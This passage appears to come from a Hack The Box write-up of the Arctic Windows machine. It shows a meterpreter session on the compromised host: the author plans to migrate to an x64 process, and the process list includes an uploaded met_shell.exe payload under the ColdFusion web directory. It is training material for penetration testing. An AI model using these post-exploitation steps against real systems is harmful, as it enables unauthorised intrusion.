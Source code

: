 ### `local_exploit_suggester`

First, let's take a look at `sysinfo`:

![](/assets/img/htb/machines/windows/easy/arctic/sysinfo.png)

Okay so we need to migrate to another process because we want to switch to a x64 version of meterpreter:

```
meterpreter > ps

Process List
============

 PID   PPID  Name                     Arch  Session  User          Path
 ---   ----  ----                     ----  -------  ----          ----
 0     0     [System Process]
 4     0     System
 12    480   spoolsv.exe
 236   4     smss.exe
 276   480   svchost.exe
 328   308   csrss.exe
 372   308   wininit.exe
 388   380   csrss.exe
 412   1176  cmd.exe                  x64   0        ARCTIC\tolis  C:\Windows\System32\cmd.exe
 436   380   winlogon.exe
 480   372   services.exe
 496   372   lsass.exe
 504   372   lsm.exe
 604   480   svchost.exe
 680   480   svchost.exe
 756   436   LogonUI.exe
 764   480   svchost.exe
 808   480   svchost.exe
 864   480   svchost.exe
 904   480   svchost.exe
 944   480   svchost.exe
 1040  480   CF8DotNetsvc.exe
 1060  328   conhost.exe              x64   0        ARCTIC\tolis  C:\Windows\System32\conhost.exe
 1084  1040  JNBDotNetSide.exe
 1100  328   conhost.exe
 1124  4028  met_shell.exe            x86   0        ARCTIC\tolis  C:\ColdFusion8\wwwroot\userfiles\file\met_shell.exe
 1148  480   jrunsvc.exe              x64   0        ARCTIC\tolis  C:\ColdFusion8\runtime\bin\jrunsvc.exe
 1176  1148  jrun.exe                 x64   0        ARCTIC\tolis  C:\ColdFusion8\runtime\bin\jrun.exe
 1184  480   swagent.exe
 1192  328   conhost.exe              x64   0        ARCTIC\tolis  C:\Windows\System32\conhost.exe
 1196  1176  cmd.exe                  x64   0        ARCTIC\tolis  C:\Windows\System32\cmd.exe
 1228  480   swstrtr.exe
 1236  1228  swsoc.exe
 1244  328   conhost.exe
 1312  480   k2admin.exe
```